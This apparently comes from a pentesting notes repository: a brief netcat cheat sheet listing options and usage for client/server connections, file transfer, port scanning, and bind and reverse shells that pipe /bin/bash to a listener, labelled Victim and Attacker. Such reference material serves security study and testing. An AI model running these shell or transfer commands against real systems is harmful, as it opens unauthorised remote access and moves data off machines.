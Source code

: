 # Netcat

## Common Options

* \-n : skip DNS resolution
* \-v : increase verbosity
* \-l : listener mode
* \-p \<port> : listener port
* \-e \<bin> : binary to pipe
* \-u : UDP mode
* \-w \<seconds> : connection timeout
* \-z : zero I/O mode

## Usage

### Simple server / client

```
$ nc -nlvp 8080
$ nc -nv 127.0.0.1 8080
```

### File transfer

```
# Client --> Server
$ nc -nlvp 8080 > incoming.txt
$ nc -nv 127.0.0.1 8080 < file.txt
```

### Shells

#### Bind Shell

```
# Victim
$ nc -nlvp 8080 -e /bin/bash

# Attacker
$ nc -nv 127.0.0.1 8080
```

#### Reverse Shell

```
# Attacker
$ nc -nlvp 8080

# Victim
$ nc -nv 127.0.0.1 8080 -e /bin/bash
```

### Port Scanning

```
$ nc -nvv -w 1 -z 127.0.0.1 3388-3390
```
